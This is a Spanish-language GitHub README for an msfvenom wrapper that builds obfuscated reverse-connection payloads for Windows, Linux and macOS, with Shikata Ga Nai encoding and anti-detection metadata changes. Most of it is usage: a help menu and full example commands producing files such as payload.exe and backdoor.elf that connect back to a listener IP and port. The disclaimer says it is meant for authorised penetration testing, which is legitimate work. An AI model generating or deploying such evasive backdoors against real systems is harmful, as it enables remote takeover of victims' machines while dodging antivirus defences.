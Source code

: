 # 🛠️ MSF Build - Advanced Payload Generator

![msfbuild](https://github.com/user-attachments/assets/d617ca7f-50f8-46b3-be4b-6ed0567277c0)
*Professional tool for generating obfuscated payloads using Shikata Ga Nai encoder*

---

## 📜 Descripción
**MSF Build** es una herramienta CLI para generar payloads ofuscados multiplataforma con medidas anti-detección integradas. Utiliza `msfvenom` bajo el capó y está diseñado para pruebas de penetración éticas.

## ✨ Características
- ✅ Soporte para **Windows**, **Linux** y **macOS**
- 🔄 Ofuscación con **Shikata Ga Nai** (x86)
- 🛡️ Medidas básicas anti-detección (modificación de metadatos)
- 🎨 Interfaz colorida con animaciones
- 🧩 Generación de payloads en múltiples formatos: `exe`, `elf`, `macho`, `python`

---

## 🚀 Instalación

### Requisitos:
- Python 3.6+
- Metasploit Framework (`msfvenom`)
- Terminal con soporte ANSI

```
# Instalar dependencias
pip install colorama
sudo apt install metasploit-framework  # Para sistemas Debian/Ubuntu

# Clonar repositorio
git clone https://github.com/tu-usuario/msfbuild.git
cd msfbuild
```
## 🖥️ Uso

Menú de Ayuda:
```
python3 msfbuild.py -h

usage: python3 msfbuild.py --os <OS> --arch <ARCH> --type <TYPE> --lhost <IP> --lport <PORT> -o <OUTPUT> [-i ITERATIONS]

options:
  --os {windows,linux,macos}     Sistema operativo objetivo
  --arch {x86,x64}               Arquitectura objetivo
  --type {exe,elf,macho,python}  Tipo de archivo de salida
  --lhost IP                     Dirección IP para conexión reversa
  --lport PORT                   Puerto para conexión reversa
  -o, --output OUTPUT            Nombre del archivo de salida
  -i, --iterations ITERATIONS    Iteraciones de ofuscación (solo x86, default: 5)
  -h, --help                     Mostrar este mensaje de ayuda
```

## 💻 Ejemplos

### Generar payload para Windows x86:
```
python3 msfbuild.py \
  --os windows \
  --arch x86 \
  --type exe \
  --lhost 192.168.1.100 \
  --lport 4444 \
  -o payload.exe \
  -i 10
```
### Generar payload para Linux x64:
```
python3 msfbuild.py \
  --os linux \
  --arch x64 \
  --type elf \
  --lhost 10.0.0.5 \
  --lport 8080 \
  -o backdoor.elf
```
### Generar payload para macOS:
```
python3 msfbuild.py \
  --os macos \
  --arch x64 \
  --type macho \
  --lhost 172.16.23.45 \
  --lport 6500 \
  -o mac_payload
```
## 🛡️ Medidas de Seguridad

- Modificación de timestamps en archivos EXE
- Advertencias automáticas para configuraciones incompatibles
- Validación estricta de parámetros de entrada

## ⚠️ Disclaimer

Este software está diseñado exclusivamente para:
- Pruebas de seguridad autorizadas
- Investigación en entornos controlados
- Educación en ciberseguridad

El uso malicioso de esta herramienta es estrictamente prohibido. 
El autor no se hace responsable del uso indebido.

## 🤝 Contribuir
- Haz fork del proyecto
- Crea una rama (git checkout -b feature/nueva-funcionalidad)
- Haz commit de tus cambios (git commit -am 'Añadir funcionalidad X')
- Push a la rama (git push origin feature/nueva-funcionalidad)
- Abre un Pull Request

### Creado con ❤️ por @afsh4ck 
